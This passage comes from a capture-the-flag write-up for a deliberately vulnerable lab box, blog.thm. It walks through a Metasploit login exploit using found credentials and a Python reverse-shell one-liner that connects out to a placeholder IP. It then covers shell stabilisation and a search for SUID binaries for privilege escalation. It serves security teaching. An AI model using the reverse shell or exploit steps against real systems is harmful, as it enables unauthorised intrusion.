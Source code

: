

Let's use these options in order to get the shell in `metasploit`:


```
set username kwheel
set password cutiepie1
set rhosts blog.thm
set lhost tun0
exploit
```

After we send the exploit, we get a `meterpreter` session:

![](../images/Pasted%20image%2020250328150952.png)

We can migrate into netcat for a more comfortable shell or stay in meterpreter, I decided to migrate just for run:

```
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("IP",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---


If we migrated to netcat we can stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can begin by checking the `SUID 4000` binaries  

```
find / -perm -4000 2>/dev/null
```

We can find this:

![](../images/Pasted%20image%2020250328152927.png)

There's something unusual, a binary called `/usr/sbin/checker`, let's check it out:

```
www-data@blog:/usr/sbin$ ltrace checker
getenv("admin")                                                                                                             = nil
puts("Not an Admin"Not an Admin
)                                                                                                        = 13
+++ exited (status 0) +++
```

